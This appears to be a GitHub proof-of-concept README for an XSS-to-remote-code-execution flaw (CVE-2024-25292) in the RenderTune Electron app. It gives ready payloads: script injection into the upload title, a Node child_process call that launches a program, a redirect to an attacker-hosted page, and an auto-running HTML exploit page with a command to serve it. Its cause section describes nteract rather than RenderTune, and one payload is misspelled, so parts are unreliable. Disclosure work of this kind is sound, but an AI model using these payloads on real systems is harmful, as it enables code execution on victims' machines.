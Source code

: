 # RenderTune RCE

A Proof-Of-Concept for CVE-2024-25292 vulnerability. <br><br>
A cross-site scripting (XSS) vulnerability in RenderTune v1.1.4 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Upload Title parameter.
In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

As a PoC there is a python file that automates the process. 
---------------------------------------

#### 1.Vunerability Overview:
It is a vulnerability that enables RCE through XSS.
There is an XSS capable part of the title, so it is a vulnerability that enables RCE through the syntax of NodeJS through the syntax of XSS.

---------------------------------------

#### 2. Vulnerability Cause:
* nteract 0.28.0 allows Electron webview via Markdown link, with resultant remote code execution (because nodeIntegration in webPreferences is true).
* Exploit explain
  * When generating links through MarkDown within the application, it creates a WebView via Electron, allowing external access to the link. Consequently, an attacker can achieve Remote Code Execution (RCE) by connecting to the link leading to the attacker's server.

Proof-of-concept (POC)
----------------------
###  Case 1) XSS to RCE.
Step 1) Confirm that XSS occurs in the title part
※ At this time, the Upload item will not be registered unless the image is attached
```html
<script>alert('JRURU')</script>
```
![renderTune1](https://github.com/QnA4u/CVE/assets/131337101/4f8e44e1-a80d-4d86-bea3-2e908dc2e35b)


Step 2) Therefore, it is configured to use XSS to execute NodeJS system commands.
```html
<script>require('child_process').exec('C:/Windows/System32/calc.exe')</script>
```
![renderTune2](https://github.com/QnA4u/CVE/assets/131337101/78fbccf5-3deb-4dd4-abfe-88ce0b30e448)

### Case 2) Attacks through an attacker server
※ When you attempt an attack using window.location, you automatically go to the page you set each time you run the app.
```html
<script>window.loaction='http://[attacker IP]/[PoC.html]'</script>
```
**Note:** ※ If you want to test it quickly, create a server on the attacker's PC with the following code.
``` bash
$ python -m http.server 80
```

* PoC Code
```html
<html>
<head>
  <title>jruru Link</title>
</head>
<body>

  <!-- Run scripts using on-click properties directly to the tag -->
  <a id="jruruLink" href="#" onclick="openExternal()">jruru Link</a>

  <script>
    // Script function definition
    function openExternal() {
      try {
        const { shell } = require('electron');
        shell.openExternal('file:C:/Windows/System32/calc.exe');
      } catch(e) {
        alert('JRURU');
        alert(e);
      }
    }

    // Run script automatically when loading pages
    document.addEventListener('DOMContentLoaded', function() {
      openExternal();
    });
  </script>
</body>
</html>
```
![renderTune3](https://github.com/QnA4u/CVE/assets/131337101/a2d26c2e-4004-45d2-8b63-36702087f597)

---------------------------------------

